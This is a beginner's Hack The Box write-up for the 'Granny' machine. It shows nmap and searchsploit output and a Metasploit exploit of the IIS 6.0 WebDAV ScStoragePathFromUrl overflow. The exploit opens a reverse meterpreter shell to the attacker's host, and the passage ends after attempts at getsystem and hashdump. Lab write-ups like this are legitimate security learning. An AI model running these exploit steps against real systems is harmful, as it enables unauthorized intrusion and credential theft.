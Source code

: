 # Hackthebox - Granny

My First HtB writeup!

This is an easy Windows box and a good one to start learning with. 


## Nmap

We start the CTF with an initial nmap scan to check for open ports/services (-sV) on default nmap ports and run default scripts (-sC) then output the results in all formats (-oA).
```
root@kali:~/htb/machines/completed/granny# nmap -sV -sC -oA nmap/init 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-06 13:14 EDT
Nmap scan report for 10.10.10.15
Host is up (0.022s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Date: Wed, 06 May 2020 17:15:41 GMT
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.63 seconds
```

The only service we find open on granny is http running an old version of IIS (6.0) Let's pass this info into searchsploit to see if we have any vulnerabilities for this IIS version.

```
root@kali:~/htb/machines/completed/granny# searchsploit IIS 6.0
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft IIS 4.0/5.0/6.0 - Internal IP Address/Internal Network Name Disclosure                                                                                                                           | windows/remote/21057.txt
Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Remote Stack Overflow                                                                                                                                    | windows/remote/9541.pl
Microsoft IIS 5.0/6.0 FTP Server - Stack Exhaustion Denial of Service                                                                                                                                      | windows/dos/9587.txt
Microsoft IIS 6.0 - '/AUX / '.aspx' Remote Denial of Service                                                                                                                                               | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow Stack Exhaustion (Denial of Service) (MS10-065)                                                                                                                     | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                                                                                                                   | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                                                                                                                | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                                                                                                                | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                                                                                                            | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)                                                                                                                                              | windows/remote/8765.php
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                                                                                                                   | windows/remote/19033.txt
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

And we do! There's quite a few vulnerabilities listed in the results, We are most interested in a vulnerability that will give us a shell on granny and one that references WebDAV because we see that referenced in the previous nmap output. This trims down our target exploit to just one:
```
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                                                                                                                   | windows/remote/41738.py
```

We can copy this file to our current directory with ```searchsploit -m windows/remote/41738.py```. This exploit acts as a PoC and only pops calc.exe. So, instead of editing the file, let's first check to see if there is a working exploit in Metasploit. Open up msfconsole then search for the exploit. We are returned with a module.

```
msf5 > search ScStoragePathFromUrl

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual  Yes     Microsoft IIS WebDav ScStoragePathFromUrl Overflow
```

Let's go ahead and switch to the exploit, modify RHOST to point to granny, and get a meterpreter shell!

```
msf5 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.15
RHOSTS => 10.10.10.15
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.16:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (180291 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.16:4444 -> 10.10.10.15:1030) at 2020-05-06 13:33:06 -0400

meterpreter >
```

The only thing we can really do from here is drop into a cmd shell. Meterpreter functions aren't working due to permission issues

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 292 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>exit
exit
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: Access is denied.
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
meterpreter >
```

Let's see if we can migrate our process to run Metasploit functions. We will background the session, try to migrate our process with post/windows/manage/migrate, set our session option, and migrate. We don't need to specify any other options here, Metasploit will take care of the rest with defaults.























